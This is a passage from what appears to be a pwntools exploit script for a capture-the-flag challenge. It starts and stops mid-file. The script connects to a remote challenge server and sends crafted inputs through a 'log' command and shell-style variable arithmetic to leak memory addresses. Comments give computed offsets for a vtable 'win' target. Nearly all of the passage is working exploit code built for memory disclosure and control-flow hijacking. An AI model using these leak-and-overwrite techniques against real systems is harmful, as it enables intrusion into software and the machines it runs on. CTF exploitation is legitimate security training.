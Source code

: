 ```
}
"""

# LEAK(STR) - OTHER_VAR
#>>> hex(0x5ea71fabc7c0 - 0x5ea71fabc710)
#'0xb0'

var_string_prev_var_offset = 0x90

# VTABLE - WIN
#>>> hex(0x5f715a663be8 - 0x5f715a65ddad)
#'0x5e3b'
long_vtable_win_offset = 0x5e3b

context.terminal = "st".split()
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r)
    else:
        r = remote("chall.polygl0ts.ch", 9034)

    return r

def new_var(r, name, val):
    r.recvuntil(b">")
    r.sendline(b"$" + name + b"=" + val)

def leaker(r, addr, content=b"ciao"):
    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"A", b"0")

    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"B", content)

    r.recvuntil(b">")
    if(addr == None):
        r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8)
    else:
        r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8 + p64(addr))


    r.recvuntil(b">")
    r.sendline(b"$(($A+$B))")

    leak = int(r.recvline().strip())

    return leak

def leaker_string(r, addr):
    print("TRYING TO LEAK: ", hex(addr))

    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"C", b"0")

```